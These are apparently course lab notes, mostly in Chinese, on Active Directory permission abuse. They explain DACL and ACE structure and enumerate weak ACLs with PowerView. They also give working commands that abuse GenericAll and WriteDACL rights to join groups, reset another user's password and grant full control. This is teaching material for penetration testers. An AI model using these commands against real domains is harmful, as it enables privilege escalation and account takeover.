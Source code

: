 # 16.1 AD Object Security Permissions

---
## 16.1.1 Object Permission Theory

DACL：Discretionary Access Control List 
AD中通过DACL来控制用户是否有访问对象的权限，DACL是有一组ACE组成。
ACE： Access Control Entries；ACE又是由SDDL格式
```
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
```

使用powerview 查看是否有弱的ACL配置可以利用
```powershell
PS C:\tools> . .\powerview.ps1
PS C:\tools> Get-ObjectAcl -Identity offsec
ObjectDN : CN=Offsec,OU=prodUsers,DC=prod,DC=corp1,DC=com
ObjectSID : S-1-5-21-3776646582-2086779273-4091361643-1111
ActiveDirectoryRights : ReadProperty
ObjectAceFlags : ObjectAceTypePresent
ObjectAceType : 4c164200-20c0-11d0-a768-00aa006e0529
InheritedObjectAceType : 00000000-0000-0000-0000-000000000000
BinaryLength : 56
AceQualifier : AccessAllowed
IsCallback : False
OpaqueLength : 0
AccessMask : 16
SecurityIdentifier : S-1-5-21-3776646582-2086779273-4091361643-553
AceType : AccessAllowedObject
AceFlags : None
IsInherited : False
InheritanceFlags : None
PropagationFlags : None
AuditFlags : None
```

\\将SID转化为 用户名或组名
```powershell
PS C:\tools> ConvertFrom-SID S-1-5-21-3776646582-2086779273-4091361643-553
PROD\RAS and IAS Servers
```

将两者结合
```powershell
Get-ObjectAcl -Identity adminWebSvc -ObjectAceType User-Change-Password -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

## 16.1.2 Abusing GenericAll

```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

```

一个用户ObjectDN中对group有ActiveDirectoryRights：GenericAll权限，即可以将自己加入该组
```
net group testgroup offsec /add /domain
```
若是用户，则可以重置其用户名
```
net user testservice1 h4x /domain
```

## 16.1.3 Abusing WriteDACL

当权限为WriteDACL时，可以使用powerview中，Add-DomainObjectAcl 来添加权限
```Powershell
Add-DomainObjectAcl -TargetIdentity testservice2 -PrincipalIdentity offsec -Rights All

```

